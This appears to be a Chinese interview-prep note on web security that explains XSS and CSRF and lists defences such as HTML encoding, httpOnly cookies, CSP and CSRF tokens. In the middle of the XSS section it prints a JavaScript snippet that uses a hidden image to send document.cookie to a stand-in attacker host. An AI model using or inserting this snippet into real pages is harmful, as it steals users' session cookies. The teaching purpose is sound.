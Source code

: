 ### 安全相关问题

#### 什么是XSS／CSRF？怎样防止此类安全问题

XSS和CSRF都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条

xss的本质是让对方浏览器执行你插入的js ，来获取cookie等信息；csrf是借用用户的身份，向服务器发送请求

XSS分为存储型和反射型：

- 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等
- 反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS

**XSS防范**：

1. 客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码中，使得js代码得以执行

- 移除用户上传的DOM属性，如onerror等
- 移除用户上传的style节点，script节点，iframe节点等 2）对用户输入的代码标签进行转换（html encode） 3）对url中的参数进行过滤 4）对动态输出到页面的内容进行HTML编码 5）服务端对敏感的Cookie设置 httpOnly属性，使js脚本不能读取到cookie 6) CSP 即是 Content Security Policy

```javascript
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);
```
这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。
目前很多浏览器都会自身对用户的输入进行判断，检测是否存在攻击字符，比如你上述提到的`<script>`标签，这段脚本很明显就是一段xss攻击向量，因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将这个拦截关闭

#### 跨站请求伪造的过程与防范：

<http://www.imooc.com/article/13552>

过程：用户小明在你的网站A上面登录了，A返回了一个session ID（使用cookie存储）,小明的浏览器保持着A网站的登录状态，攻击者小强给小明发送了一个链接地址，小明打开了地址的时候，这个页面已经自动的对网站a发送了一个请求，通过使用小明的cookie信息，这样攻击者小强就可以随意更改小明在A上的信息。

1. 使用token：服务器随机产生tooken，然后以tooken为秘钥产生一段密文，把token和密文都随cookie交给前端，前端发起请求时把密文和token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文`http://www.weibo.cn?follow_uid=123&token=73ksdkfu102`
2. 使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三方网站是无法获得验证码的
3. 检测http的头信息refer。Referer记录了请求的来源地址，服务器要做的是验证这个来源地址是否合法
4. 涉及敏感操作的请求改为POST请求

---

#### 你还知道其他的Web攻击吗？



---

#### 公钥加密和私钥加密。

  一般情况下是指私钥用于对数据进行签名，公钥用于对签名进行验证;
  HTTP网站在浏览器端用公钥加密敏感数据，然后在服务器端再用私钥解密。

#### 如何确保表单提交里的密码字段不被泄露。验证码是干嘛的，是为了解决什么安全问题。

---

- [Crypto (加密)](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#crypto)
- [TLS/SSL](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#tlsssl)
- [HTTPS](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#https)
- [ XSS](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#xss)
- [ CSRF](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#csrf)
- [中间人攻击](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)
- [Sql/Nosql 注入](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#sqlnosql-%E6%B3%A8%E5%85%A5)


- 加密是如何保证用户密码的安全性? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#crypto)
- TLS 与 SSL 有什么区别? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#tlsssl)
- HTTPS 能否被劫持? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#https)
- XSS 攻击是什么? 有什么危害? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#xss)
- 过滤 Html 标签能否防止 XSS? 请列举不能的情况? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#xss)
- CSRF 是什么? 如何防范? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#csrf)
- 如何避免中间人攻击? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)

---



